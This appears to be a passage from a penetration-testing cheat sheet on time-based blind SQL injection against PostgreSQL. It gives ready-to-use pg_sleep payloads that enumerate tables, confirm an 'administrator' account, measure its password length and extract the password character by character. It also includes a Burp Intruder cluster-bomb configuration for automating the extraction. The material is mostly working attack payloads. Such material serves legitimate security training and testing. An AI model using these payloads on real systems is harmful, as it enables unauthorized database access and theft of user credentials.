 In this example if the table users does exist then the application will sleep, if it doesn't exist then the application should respond normally. The following can be used to enumerate valid tables in the database:

```sql
'%3b select case when (1=1) then pg_sleep(10) else null end from users-- 
```

The next payload can be used to identify if a user called administrator exists on the table called users:

```sql
'%3b select case when (username='administrator') then pg_sleep(10) else pg_sleep(0) end from users--
```

```sql
'%3b select case when ((select 'TEST' from users where username='administrator')='TEST') then pg_sleep(10) else null end--
```

To identify the length of the password for a user called administrator:

```sql
'%3b select case when (username='administrator' and length(password)>1) then pg_sleep(10) else pg_sleep(0) end from users--
```

```sql
'%3b select case when ((select 'TEST' from users where username='administrator' and length(password)>10)='TEST') then pg_sleep(10) else null end--
```

To extract the password from a user called administrator - the columns here are username and password and the table is users:

```sql
'%3b select case when (username='administrator' and substring(password,1,1)='a') then pg_sleep(10) else pg_sleep(0) end from users--
```

```sql
'%3b select case when (substring((select password from users where username ='administrator'),1,1)='f') then pg_sleep(10) else null end--
```

For Burp Intruder use the following configurations:

- Attack Type: Cluster Bomb
- Payload Positions: 2 position markers need to be set:
    - The first one should be on the character offset position in the password
    - The second marker should be on the actually character to test:
        - `where username='administrator'),$$,1)='$$')`
- Payloads:
    - First marker - Numbers From 1 to 20
    - Second marker - include alphanumeric characters (Burp Pro has the payload list that can be added.)

Filter by the Response received/completed columns. The higher values should have the correct character in their positions. After sorting, it should be easy to manually put together the password.
# SQLi Out of Band Interaction

